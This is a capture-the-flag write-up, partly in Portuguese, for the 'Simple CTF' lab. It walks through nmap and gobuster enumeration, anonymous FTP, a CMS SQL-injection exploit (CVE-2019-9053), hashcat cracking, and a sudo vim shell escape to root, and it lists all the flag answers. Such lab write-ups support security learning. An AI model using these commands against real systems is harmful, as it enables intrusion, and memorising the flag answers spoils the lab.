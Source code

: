 # Lab: Simple CTF (Easy Mode)

## Capture The Flags (CTF):

1.  How many services are running under port 1000? `2`
2.  What is running on the higher port? `shh`
3.  What's the CVE you're using against the application? `CVE-2019-9053`
4.  To what kind of vulnerability is the application vulnerable? `sqli`
5.  What's the password? `secret`
6.  Where can you login with the details obtained? `ssh`
7.  What's the user flag? `G00d j0b, keep up!`
8.  Is there any other user in the home directory? What's its name? `sunbath`
9.  What can you leverage to spawn a privileged shell? `vim`
10.  What's the root flag? `W3ll d0n3. You made it!`

---

```
ip addr show tun0
```
`10.8.32.62`

```
export IP=10.10.169.195
```

---

## 1) Enumeração com Nmap
```bash
nmap -A 10.10.169.195
```
**Resultados:**
```
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```
(INFO: FLAG!)

---

## 2) Acesso FTP
```bash
ftp 10.10.169.195
```
> **ftp Nome de utilizador:** anonymous

```bash
ftp> ls
ftp> cd pub
ftp> mget *
ftp> bye
```
**Ficheiro Encontrado:** `ForMitch.txt` (INFO: Informa que a password é fraca)

---

## 3) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultado:** `/simple` (Site Type: CMS)
```
http://10.10.169.195/simple
```

---

## 4) Exploração - Vulnerabilidade SQLi no CMS
> **ExploitDatabase:** Identificado vuln no CMS (SQLi -> ficheiro Python a descarregar para exe)
```bash
python2 46635.py -u http://10.10.169.195/simple
```
**Credenciais Obtidas:**
Salt for Password: `1dac092e9fa6bb2`
Username: `mitch`
Email: `admin@admin.com`
Password Hash: `0c01f4468bd75d7a84c7eb73846e8d96`

---

## 5) Quebra de Hash com Hashcat
```bash
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac092e9fa6bb2 /usr/share/wordlist/rockyou.txt
```
**Senha Encontrada:** `secret` (INFO: FLAG!)

---

## 6) Acesso via SSH
```bash
ssh mitch@10.10.169.195 -p 2222
```
> **ssh Password:** `secret`

```bash
$ whoami
$ bash
$ ls
$ cat user.txt
```
**Mensagem:** `G00d j0b, keep up!`

---

## 7) Elevação de Privilégios
```bash
ls /home
```
**User Identificado:** `sunbath` (INFO: FLAG!)

```bash
sudo -l
```
**Vulnerabilidade Identificada:** `vim` (leverage to spawn a privileged shell)
**Site GTFOBins**: (vim -> sudo) Identificar um bypass para o Vim.
```bash
sudo vim -c ':!/bin/sh'
```

```bash
# whoami
```
**Resultado:** `root`

```bash
# cd /root
# ls
# cat root.txt
```
**Mensagem Final:**
`w3ll d0ne. You made it!` (INFO: FLAG!)
